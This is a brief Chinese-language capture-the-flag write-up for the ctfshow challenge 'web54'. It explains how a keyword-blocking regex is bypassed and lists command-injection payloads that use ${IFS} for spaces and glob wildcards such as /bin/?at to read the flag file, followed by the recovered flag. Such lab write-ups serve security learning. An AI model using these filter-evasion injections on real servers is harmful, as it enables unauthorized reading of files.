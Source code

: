 # web54
![](vx_images/502641285248187.png)
正则通过 .* 允许任意间隔字符，例如 c1a2t 也会被拦截
直接用
?c=xxd${IFS}fl??.php
ctfshow{a8a72888-7fba-4a58-b441-567b7ad6bf43}
还有调用系统目录配合占位符执行读取命令
/bin/?at${IFS}f???????



uniq${IFS}f???.php
两个问号还不行?